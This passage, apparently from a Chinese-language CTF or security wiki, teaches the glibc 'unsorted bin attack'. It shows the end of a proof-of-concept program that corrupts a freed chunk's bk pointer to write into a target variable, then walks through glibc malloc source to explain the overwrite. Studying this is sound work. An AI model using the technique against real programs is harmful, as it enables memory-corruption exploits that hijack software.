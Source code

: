 ```c
  p[1] = (unsigned long)(&target_var - 2);
  fprintf(stderr, "现在我们模拟一个可以修改 被溢出堆块->bk指针 的漏洞\n");
  fprintf(stderr, "然后覆盖被溢出堆块的bk指针为 目标地址-16（在32位机器上，应该覆盖为 目标地址-8）:%p\n\n",
          (void *)p[1]);

  //------------------------------------

  malloc(400);
  fprintf(stderr, "让我们再malloc一次，得到我们刚刚free的那个堆块。这回目标地址应该已经被修改了:\n");
  fprintf(stderr, "%p: %p\n", &target_var, (void *)target_var);
}
```

这里我们可以使用一个图来描述一下具体发生的流程以及背后的原理。

![unsorted_bin_attack_order](../../images/unsorted_bin_attack_order.png)

初始状态时

unsorted bin 的 fd 和 bk 均指向 unsorted bin 本身。

执行 free(p)

由于释放的 chunk 大小不属于 fast bin 范围内，所以会首先放入到 unsorted bin 中。

修改 p[1]

利用某些漏洞例如堆溢出修改之后，原来在 unsorted bin 中的 p 的 bk 指针就会指向 target addr-16 处伪造的 chunk，即 Target Value 处于伪造 chunk 的 fd 处。这样伪造会让unsorted bin中凭空多出来一个堆块。无论target addr是什么结构都不重要，系统都会自动将其看为一个堆块。target addr-16这个值也不是乱写的，这样构造可以让target value正好位于凭空冒出来堆块的fd处。

申请 400 大小的 chunk

此时，所申请的 chunk 处于 small bin 所在的范围，其对应的 bin 中暂时没有 chunk，所以会去 unsorted bin 中找，发现 unsorted bin 不空，于是把 unsorted bin 中的最后一个 chunk 拿出来。

注意unsroted bin是FIFO，像队列一样，因此我们现在取出来的是刚刚free的p堆块。

```c
        /*unsorted_chunks(av)结合上面的图可以猜测是unsorted bin里粉色的初始块，其bk此时为p。因此这里的victim是上面提到的p*/
        while ((victim = unsorted_chunks(av)->bk) != unsorted_chunks(av)) {
            /*victim->bk等于说p->bk，之前我们把p的bk指针覆盖为了target_addr-16,因此bck=target_addr-16*/
            bck = victim->bk;
            if (__builtin_expect(chunksize_nomask(victim) <= 2 * SIZE_SZ, 0) ||
                __builtin_expect(chunksize_nomask(victim) > av->system_mem, 0))
                malloc_printerr(check_action, "malloc(): memory corruption",
                                chunk2mem(victim), av);
            size = chunksize(victim);

            /*
               If a small request, try to use last remainder if it is the
               only chunk in unsorted bin.  This helps promote locality for
               runs of consecutive small requests. This is the only
               exception to best-fit, and applies only when there is
               no exact fit for a small chunk.
             */
            /* 显然，bck被修改，并不符合这里的要求*/
            if (in_smallbin_range(nb) && bck == unsorted_chunks(av) &&
                victim == av->last_remainder &&
                (unsigned long) (size) > (unsigned long) (nb + MINSIZE)) {
                ....
            }

            /* remove from unsorted list */
            /*让初始块的bk等于bck，也就是target_addr-16*/
            unsorted_chunks(av)->bk = bck;
            /*虽然target_addr-16并不是严格意义上的堆块，但这里强行将其看作堆块。遵循堆块的结构，fd指针处于堆块地址偏移16的位置，那么bck->fd等同于*(target_addr-16+16)。最后赋值其为unsorted_chunks(av)，一个很大的值*/
```